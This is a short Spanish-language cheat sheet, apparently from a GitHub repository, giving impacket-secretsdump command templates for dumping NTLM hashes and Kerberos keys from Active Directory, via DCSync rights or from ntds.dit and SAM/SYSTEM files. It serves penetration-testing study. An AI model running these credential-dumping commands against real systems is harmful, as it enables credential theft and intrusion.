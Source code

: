 # SecretsDump Cheat Sheet

#### Dump Hashes - cuando tienes un usuario que pertenece al grupo Administrador
```
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP-TARGET>
```

#### Extrar Hashes NTLM y kerberos keys  - cunaod se tiene un usuario que pertenece al grupo DCSync (el parametro -just-dc creará 3 archivos: una que contiene los hashs NTLM, una que contiene las teclas Kerberos, y otra que contendría contraseñas de texto claros de la NTDS)
```
impacket-secretsdump -outputfile hashes -just-dc <DOMAIN>/<USER>@<IP>
```

#### Extrar Hashes NTLM y kerberos keys de un usuario en especifico - cunaod se tiene un usuario que pertenece al grupo DCSync
```
impacket-secretsdump -outputfile hashes -just-dc-user <USERNAME-TO-EXTRACT> <DOMAIN>/<USER>@<IP>
```

#### Extraer Hashes de archivos ntds.dit
```
impacket-secretsdump.py -ntds <FILE.dit> -system <FILE-SYSTEM> LOCAL
```

#### Extraer Hashes de SAM & SYSTEM
```
impacket-secretsdump.py -sam <FILE-SAM> -system <FILE-SYSTEM> LOCAL
ó
impacket-secretsdump.py -sam <FILE-SAM> -system <FILE-SYSTEM> -system <FILE-SYSTEM> LOCAL
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)